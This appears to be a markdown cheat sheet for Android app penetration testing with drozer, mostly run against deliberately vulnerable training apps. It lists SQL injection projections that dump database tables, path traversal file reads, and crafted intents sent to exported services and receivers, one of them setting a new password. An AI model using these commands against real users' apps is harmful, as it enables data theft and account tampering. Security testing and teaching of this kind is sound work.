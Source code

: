#### Setup drozer
[Android Penetration Tools Walkthrough Series: Drozer - Infosec Resources (infosecinstitute.com)](https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/)

#### Get drozer shell
	`adb forward tcp:31415 tcp:31415`
	`drozer console connect`

#### Content Providers
- Get info from exposed content providers
	`run app.provider.info -a com.mwr.example.sieve`
	
** Note: content provider queries take the form `content://name.of.package.class/declared_name` **

- Drozer can guess and try several URIs
	`run scanner.provider.finduris -a com.mwr.example.sieve`
- Query Content Provider (database based)
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --vertical`
- Update and delete content provider (database based)
	[Exploiting Content Providers - HackTricks](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers)
- Manual SQL Injection test
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"`
- Manual SQL Lite Dump
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"`
- Automatic SQL Discovery
	`run scanner.provider.injection -a com.mwr.example.sieve`
- Read Files
	`run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts`
- Automatic Path Traversal Discovery
	`run scanner.provider.traversal -a com.mwr.example.sieve`
	
	***
	
### Permissions 
- Examine Permissions and custom permissions
	`run app.package.info -a com.spotify.music`

#### Deep links
- pull invocable URIs(deep links/app links) from the AndroidManifest.xml file
	```
	run scanner.activity.browsable -a com.google.android.apps.messaging
	Package: com.google.android.apps.messaging
	  Invocable URIs:
		sms://
		mms://
	  Classes:
		com.google.android.apps.messaging.ui.conversation.LaunchConversationActivity
	```
	
- Call deeplinks
	`run app.activity.start  --action android.intent.action.VIEW --data-uri "sms://0123456789"`

### Exported IPC components
-  Enumerate exported
	`run app.package.attacksurface com.mwr.example.sieve`
- List exported content providers
	`run app.provider.finduri com.mwr.example.sieve`
- List exported Activities
	`run app.activity.info -a com.mwr.example.sieve`
- Launch Activity directly
	`run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList`
- List exported services
	`run app.service.info -a com.mwr.example.sieve`
- Interact with service
	`run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj`
- List broadcast recivers
	`run app.broadcast.info -a com.android.insecurebankv2`
- Send message to broadcast reciever
	`run app.broadcast.send --action theBroadcast --extra string phonenumber 07123456789 --extra string newpass 12345`
- Sniff intents
	`run app.broadcast.sniff --action theBroadcast`